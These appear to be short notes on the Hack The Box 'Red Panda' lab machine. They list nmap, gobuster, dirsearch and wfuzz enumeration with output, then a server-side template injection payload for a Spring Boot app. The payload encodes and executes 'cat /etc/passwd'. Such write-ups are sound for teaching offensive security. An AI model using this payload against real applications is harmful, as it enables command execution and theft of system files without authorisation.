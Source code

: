 # Red Panda

[Link]

[Solution](https://www.youtube.com/watch?v=8uatXyKmb9c)


Goal: Server Side Template Injection (SSTI) on Spring Boot application

[sst-payload.py](https://github.com/VikasVarshney/ssti-payload)



1. nmap -sV -sC 10.10.11.170

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http-proxy
```

Lorsqu'on voit http-proxy, try url name with port number

2. dirsearch

```
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://redpanda.htb:8080
python3 dirsearch.py  -u http://redpanda.htb:8080/
wfuzz -c --hc=404 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt http://redpanda.htb:8080/FUZZ

Target: http://redpanda.htb:8080/

[15:27:50] Starting: 
[15:28:00] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[15:28:01] 400 -  435B  - /a%5c.aspx
[15:28:24] 500 -   86B  - /error
[15:28:24] 500 -   86B  - /error/
[15:28:47] 405 -  117B  - /search
[15:28:51] 200 -  987B  - /stats
[15:28:51] 200 -  987B  - /stats/

```

3. Perform SSTI 

Search for `*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}`

```

```


